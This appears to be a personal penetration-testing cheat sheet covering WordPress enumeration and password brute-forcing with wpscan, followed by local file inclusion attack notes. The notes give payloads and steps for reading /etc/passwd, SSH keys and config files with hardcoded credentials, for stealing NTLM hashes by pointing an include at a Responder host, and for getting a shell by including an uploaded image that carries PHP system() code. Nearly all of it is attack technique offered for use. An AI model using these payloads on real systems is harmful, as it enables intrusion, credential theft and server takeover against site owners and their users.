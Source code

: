 `wpscan --url http://wordpress.site/ --enumerate p --plugin-detection aggressive`


wordpress password spray

`wpscan --url http://wordpress.site/ --passwords passwords.txt`

wordpress brute force 

`wpscan –url http://example.com –passwords rockyou.txt –usernames andy`

## LFI 

lfi in post requests can exist

always use burp to check for lfi

IFRAME PDF EMBED FILES `<iframe src=file:///etc/passwd width=100%></iframe>`

https://book.hacktricks.xyz/pentesting-web/file-inclusion

**NTLM STEAL WITH LFI** test.php?include=\\$RESPONDER_IP\ (it should work even with "/" to bypass some waf)

get /etc/passwd

check for LOG POISONING

check for /proc/self/environ injection

check /etc/hosts

check home directory of user (.bashrc)

check .git directories config file

**check if ID_RSA exists in user home directory**

**ALWAYS check if there is a file called db_conn.php, config.php or something like that because there can be hardcoded creds**

to check OPEN PORTS with LFI we can check /proc/net/tcp (decimal encoded)

to check how was a program started we can get /proc/self/cmdline or /proc/(PID)/cmdline

to get the file we can get /proc/self/cmd 

to check if in a container use /proc/self/cgroup and look for docker, or simply go to / and get .dockerenv

we can modify source code of a page if there is a php post parameter that is vulnerable to path trasversal (so we can overwrite maybe index.php and get a shell)

a username can be taken from /etc/passwd and reused for login page

**if we have INCLUDE LFI in a page and we can at the same time upload a file to the server, it's simple because we can inject php code like <?php system("id")?> to the image and then include it with the lfi to load it and get the shell**

we can try to get capabilities of process by getting /proc/PID/stat or /proc/self/stat and then decoding capabilities with `capsh --decode='(string)'`

get to check for other subdomains `/etc/apache2/sites-available/000-default.conf` OR `/etc/nginx/sites-enabled/default`

